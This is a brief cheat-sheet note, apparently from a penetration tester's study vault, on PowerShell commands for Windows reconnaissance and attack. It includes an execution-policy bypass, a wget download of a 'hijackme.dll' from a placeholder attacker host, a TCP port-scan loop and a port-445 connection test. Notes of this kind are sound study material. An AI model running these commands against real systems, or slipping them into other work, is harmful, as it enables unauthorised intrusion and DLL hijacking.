 **Tags:** #type/tech-specific 

---
**Tags:** #type/tool  #tactic/reconnaissance/active 
**Link:** 
**Purpose:** default shell on modern windows

---
# Info

# Usage
execution policies bypassed
	`powershell.exe -nop -exec bypass`: run powershell with 
download file from attacker machine
	`wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll`
perform tcp port scan
	`1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null`
test connection on one tcp port
	`Test-NetConnection -Port 445 192.168.50.151`
print the current domain
`(Get-CimInstance Win32_ComputerSystem).Domain` or `$env:USERDOMAIN`
